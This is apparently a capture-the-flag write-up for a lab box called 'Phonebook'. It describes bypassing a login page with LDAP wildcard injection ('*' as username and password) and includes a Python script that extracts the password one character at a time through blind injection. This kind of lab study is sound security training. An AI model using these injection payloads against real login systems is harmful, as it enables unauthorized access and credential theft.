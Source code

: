 # Phonebook

## Keynotes

* LDAP
* Brute-force

## Tracking

1. I obviously went too far with this box for its difficulty, but Iwasn't able to find something on my own without a solid hint. I tried nmap, dirb, sqlmap, hydra, analysis of source code, but nothing worked, although I was able to find a second page that didn't help me at all because it was denying all requests with a `403` status code

	```
	http://178.62.0.100:32416/964430b4cdd199af19b986eaf2193b21f32542d0/
	```

2. I observed, though, that the login page breaks when the payload includes `)` or `\`so I was aware that some kind of escaping was happening on server-side

3. Then I got a huge hint which was `LDAP` -and it's a shame that Iwas not even thinking aboutit

4. Started looking into LDAP vulnerabilities and I didn't need to look very hard - I tried some combinations and the `*` payload for both username and password allowed me to login and redirected me to the search page I found before, this time authenticated with a cookie

5. Found all the entries in the database using a blank input, including the emails which I assumed that, by stripping the @somewhere.com part, will be interpreted as usernames

6. Remembered something about Reese, the name mentioned on the login page, and found it in the database

7. After some guesses and some other hints, I moved back to the login page and I tried to login with different usernames

8. After some times and a little more help, I realized that each combination of `username`/`*` will work, but I could also use it to guess the passwords by checking one character at a time

9. The most obvious choice was `reese`, so I wrote a python script to brute-force the password, which was actually the flag
	* `password.txt` contains each character on the keyboard on a new-line, excepting the ones that produce an error `)`, `\`
	```python
	import requests

	url = 'http://178.62.0.100:31478/login'
	found = ''

	while True:
		# 
		with open('passwords.txt', 'r+') as passwords:
			for line in passwords:
				pwd = found + line.replace('\n', '') + '*'

				payload = {'username': 'reese', 'password': pwd}
				x = requests.post(url, data = payload)
					
				if 'Set-Cookie' in x.history[0].headers:
					found = pwd.split('*')[0]
					print(found)
					break
	```